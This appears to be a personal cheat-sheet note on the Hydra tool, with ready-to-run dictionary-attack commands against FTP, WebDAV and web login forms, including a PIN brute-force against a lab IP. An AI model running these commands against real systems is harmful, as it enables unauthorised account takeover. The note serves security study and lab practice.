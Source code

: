 ```yaml
---
{"dg-publish":true,"permalink":"/notes/hydra/"}
---
```


- Crack pass with pass dic
- Supports [[FTP\|FTP]], [[POP3\|POP3]], [[IMAP\|IMAP]], [[SMTP\|SMTP]], [[Notes/SSH\|SSH]], [[SMB\|SMB]] and all methods related to HTTP.

| Option                                                                                                                     | Description                                                   |
| -------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------- |
| `hydra -l username -P wordlist.txt server service`                                                                         | General command-line                                          |
| `hydra -l mark -P /usr/share/wordlists/rockyou.txt IP ftp`<br>`hydra -l mark -P /usr/share/wordlists/rockyou.txt ftp://IP` | E.g. ftp                                                      |
| `hydra -l <username> -P <wordlist> 10.10.181.239 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`        | Web form                                                      |
| `server`                                                                                                                   | hostname or IP address of the target server.                  |
| `service`                                                                                                                  | service which are trying to <br>launch the dictionary attack. |
| `-l`                                                                                                                       | specifies the (SSH) **username** for login                    |
| `-L`                                                                                                                       | indicates a **list of users**                                 |
| `-p`                                                                                                                       | specifies the (SSH) **password** for login                    |
| `-P`                                                                                                                       | indicates a **list of passwords**                             |
| `-t 4`                                                                                                                     | sets the number of **threads** to spawn                       |
| `-s`                                                                                                                       | **port** number                                               |
| `-V`                                                                                                                       | Verbose for every attempt                                     |
| `-vV`                                                                                                                      | very verbose<br>shows login+pass for each attempt             |
| `-d`                                                                                                                       | Debugging                                                     |
| `-f`                                                                                                                       | stops Hydra after finding a working password                  |
| `http-post-form`                                                                                                           | the type of the form is POST                                  |
| `<path>`                                                                                                                   | the login page URL, for example, `login.php`                  |
| `<invalid_response>`                                                                                                       | part of the response when the login fails                     |
# Webdav
Bruteforce on the `webdav` subdir
```shell
hydra -L /usr/share/ -P <wordlist> IP_OR_DOMAIN http-get /webdav/
```
# Post Web Form
- Brute force web forms attack.
- You must know which type of request it is making; GET or POST methods are commonly used.
- You can use your browser’s network tab (in developer tools) to see the request types or view the source code.
```shell
hydra <username> <wordlist> 10.10.181.239 http-post-form "<path>:<login_credentials>:invalid_response>"
```
## POST login form:
```shell
hydra -l <username> -P <wordlist> 10.10.181.239 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

- The login page is only `/`, i.e., the main IP address.
- The `username` is the form field where the username is entered
- The specified username(s) will replace `^USER^`
- The `password` is the form field where the password is entered
- The provided passwords will be replacing `^PASS^`
- Finally, `F=incorrect` is a string that appears in the server reply when the login fails
---
![Pasted image 20231206174317.png](/img/user/attachments/Pasted%20image%2020231206174317.png)
```sh
hydra -l '' -P 3digits.txt -f -v 10.10.180.149 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

The command above will try one password after another in the `3digits.txt` file. It specifies the following:

- `-l ''` indicates that the login name is blank as the security lock only requires a password
- `-P 3digits.txt` specifies the password file to use
- `-f` stops Hydra after finding a working password
- `-v` provides verbose output and is helpful for catching errors
- `10.10.180.149` is the IP address of the target
- `http-post-form` specifies the HTTP method to use
- `"/login.php:pin=^PASS^:Access denied"` has three parts separated by `:`
    - `/login.php` is the page where the PIN code is submitted
    - `pin=^PASS^` will replace `^PASS^` with values from the password list
    - `Access denied` indicates that invalid passwords will lead to a page that contains the text “Access denied”
- `-s 8000` indicates the port number on the target